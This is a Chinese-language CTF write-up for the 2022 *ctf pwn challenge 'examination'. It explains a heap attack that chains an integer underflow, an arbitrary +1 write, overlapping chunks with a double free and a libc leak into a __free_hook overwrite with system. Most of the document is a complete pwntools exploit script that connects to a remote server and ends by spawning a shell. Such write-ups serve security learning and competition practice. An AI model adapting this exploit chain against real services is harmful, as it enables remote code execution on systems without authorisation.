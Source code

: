 ```yaml
---
layout: post
title: "2022 *ctf pwn examination wp"
date:   2022-4-17
tags: [ctf_wp]
comments: true
author: wsxk
---
```


是我见过的最复杂的堆题目了，没有之一

首先先看一遍程序的大致流程

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-15-%E6%98%9Fctf_pwn_examination/1.png)

可以看到关键点在当角色为student时的check_review函数

当分数大于89的时候可以拿到chunk地址，以及任意地址加1的权限，但是我们看过流程后，会发现，正常情况分数是不可能超过89的
因为模数最大为90。

当老师给分时

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-15-%E6%98%9Fctf_pwn_examination/2.png)

我们发现如果学生祈祷（pray），会扣10分，如果学生分数少于10分，就发生整型溢出

这样就能绕过这个判断了

那么思考后面的条件怎么用，我们发现我们可以构造学生0和学生1的comment地址差0x100，这样通过加1操作，就能使得2个学生的comment指向同一个位置，造成double free

然后思考我们要怎么拿到libc基址，这道题的comment限制在0x400以内，直接释放都会丢到tcache里面，这样是拿不到基址的

这里再用一次上面的条件，使得comment的size域+0x100，这样释放就能拿到libc地址了（只要对学生0指向函数check_review就能拿到libc地址了

这里再用一次上面的条件，将学生0指向的comment可写的长度修改，使它可以写超长的值，就能覆盖之后的chunk

覆盖之后的某个学生的comment地址为free_hook，就能完成攻击



    from pwn import *

    libc = ELF("./libc-2.31.so")
    #libc= ELF("/lib/x86_64-linux-gnu/libc.so.6")
    io=remote("124.70.130.92",60001)
    #io = process(['./examination'])
    #gdb.attach(io)
    context.log_level="debug"

    def change_role(num):
        io.sendlineafter("choice>>",str(5))
        io.sendlineafter("<0.teacher/1.student>:",str(num))

    # teacher
    def add_stu(num_question):
        io.sendlineafter("choice>>",str(1))
        io.sendlineafter("enter the number of questions: ",str(num_question))

    def give_score(id):
        io.sendlineafter("choice>>",str(2))
        print(str(id)+"th "+"student is ")
        io.recvuntil(str(id)+"th "+"student is ")
        value = int(io.recv(2))
        return value

    def write_check(num,size,content):
        io.sendlineafter("choice>>",str(3))
        io.sendlineafter("which one? > ",str(num))
        io.sendlineafter("please input the size of comment: ",str(size))
        io.sendlineafter("enter your comment:",content)

    def free(num):
        io.sendlineafter("choice>>",str(4))
        io.sendlineafter("which student id to choose?",str(num))

    #student

    def change_id(num):
        io.sendlineafter("choice>>",str(6))
        io.sendlineafter("input your id: ",str(num))

    def pray():
        io.sendlineafter("choice>>",str(3))

    def check_review():
        io.sendlineafter("choice>>",str(2))


    # get arbitrary addr  value +1
    def arbitrary_addr(num):
        change_role(1)
        change_id(num)
        pray()

        change_role(0)
        value=give_score(num)
        while value>=10:
            print("value:"+str(value))
            value=give_score(num)
        print("value:"+str(value))

        #change_role(1)
        #check_review()

    io.sendlineafter("role: <0.teacher/1.student>: ",str(0))
    change_role(0)
    add_stu(9)
    write_check(0,0xa0,"wsxk")
    add_stu(9)
    write_check(1,0x3f0,"test")
    add_stu(9)
    write_check(2,0xa0,"www")
    add_stu(9)
    write_check(3,0x200,"www")



    ## get_reware
    arbitrary_addr(3)
    change_role(1)
    change_id(3)
    check_review()
    io.recvuntil("Good Job! Here is your reward! ")
    first_chunk=int(io.recv(14),16)
    print("frist_chunk_addr:"+hex(first_chunk))
    write_addr1=first_chunk-(0x55de86bb17f0-0x55de86bb12d9)-0x100
    #gdb.attach(io)
    print("write_addr1:"+hex(write_addr1))
    write_addr2=write_addr1+0x3e9-0x2d9
    print("write_addr2:"+hex(write_addr2))
    io.recvuntil("addr: ")
    #gdb.attach(io)
    io.sendline(str(write_addr1)+'1')

    change_role(0)
    add_stu(9)
    write_check(4,0x300,"wsxk")
    add_stu(9)
    write_check(5,0x300,"wsxk")
    add_stu(9)
    write_check(6,0x300,"wwww")
    # get reward
    arbitrary_addr(4)
    change_role(1)
    change_id(4)
    check_review()
    io.recvuntil("addr: ")
    #gdb.attach(io)
    print("write_addr1:"+hex(write_addr1))
    print("write_addr2:"+hex(write_addr2))
    io.sendline(str(write_addr2)+'1')


    #get 0th reward
    arbitrary_addr(0)
    # free the 1th chunk
    #gdb.attach(io)
    change_role(0)
    free(1)   # total 5chunks left
    #gdb.attach(io)

    change_role(1)
    change_id(0)
    check_review()
    io.recvuntil("Good Job! Here is your reward! ")
    chunk=int(io.recv(14),16)
    io.recvuntil("addr: ")
    io.sendline(str(chunk+0x40+2)+"1")
    io.recvuntil(b"here is the review:\n")
    main_arena = u64(io.recv(7).ljust(8,b"\x00"))-96
    print("main_arena:"+hex(main_arena))
    #gdb.attach(io)

    libc.address=main_arena-0x1ECB80
    #libc.address=main_arena-0x1EBB80
    print("libc_address:"+hex(libc.address))
    print("free_hook:"+hex(libc.sym["__free_hook"]))
    print("malloc_hook:"+hex(libc.sym["__malloc_hook"]))
    free_hook=libc.sym["__free_hook"]

    # get shell
    change_role(0)
    io.sendline(str(3))
    io.recvuntil("which one? > ")
    io.sendline(str(0))
    io.recvuntil("enter your comment:")
    print("write_addr1:"+hex(write_addr1))
    print("write_addr2:"+hex(write_addr2))
    print("first_chunk:"+hex(first_chunk))
    #gdb.attach(io)
    payload=p64(main_arena+96)+p64(main_arena+96)+b'a'*0x4e0+p64(0x500)+p64(0x30)+p64(first_chunk+0x000055f06b873920-0x55f06b8738f0)+p64(0)*2+p64(0x0000000100000001)+p64(0)+p64(0x21)+p64(0x0000004800000009)+p64(free_hook)+p64(0x200)+p64(0x201)+p64(0xa777777)
    io.sendline(payload)
    #gdb.attach(io)
    ## write gadget
    gadget=libc.sym["system"]
    change_role(0)
    io.sendline(str(3))
    io.recvuntil("which one? > ")
    io.sendline(str(3))
    io.recvuntil("enter your comment:")
    payload=p64(gadget)
    io.send(payload)

    change_role(0)
    io.sendline(str(3))
    io.recvuntil("which one? > ")
    io.sendline(str(5))
    io.recvuntil("enter your comment:")
    io.sendline("/bin/sh\x00")
    #gdb.attach(io)
    free(5)
    io.interactive()




<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>